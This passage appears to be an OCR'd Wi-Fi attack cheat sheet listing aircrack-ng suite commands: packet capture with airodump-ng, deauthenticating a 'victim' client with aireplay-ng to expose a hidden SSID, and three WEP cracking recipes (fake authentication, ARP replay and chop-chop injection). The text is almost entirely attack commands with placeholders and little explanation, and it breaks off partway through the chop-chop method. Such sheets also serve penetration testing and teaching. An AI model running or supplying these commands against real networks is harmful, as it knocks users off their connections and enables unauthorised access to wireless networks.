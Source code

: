 airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon

Output saved as <FileName-01.cap> (PCAP format)

Note encryption type (WEP/WPA/WPA2/WPA3)

## Find Hidden SSID
Deauthenticate clients to reveal SSID

airodump-ng -c <Channel> --bssid <BSSID> wlan0mon

aireplay-ng -0 20 -a <BSSID> -c <VictimMac> wlan0mon

Watch airodump-ng for SSID to appear

## Identify Victim MAC
From airodump-ng output, note client MAC under "STATION" column

Filter active clients with strong signal

## WEP CRACKING
Method 1 - Fake Authentication Attack
airmon-ng start wlan0

airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon

Check your MAC

macchanger --show wlan0mon

aireplay-ng -1 0 -a <BSSID> -h <OurMac> -e <ESSID> wlan0mon

aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b <BSSID> -h <OurMac> wlan0mon

aircrack-ng -b <BSSID> <FileName-01.cap>

### Method 2 - ARP Replay Attack
airmon-ng start wlan0

airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon

macchanger --show wlan0mon

aireplay-ng -3 -x 1000 -n 1000 -b <BSSID> -h <OurMac> wlan0mon

aircrack-ng -b <BSSID> <FileName-01.cap>

### Method 3 - Chop Chop Attack
airmon-ng start wlan0

airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon

macchanger --show wlan0mon

aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <OurMac> wlan0mon

aireplay-ng -4 -b <BSSID> -h <OurMac> wlan0mon
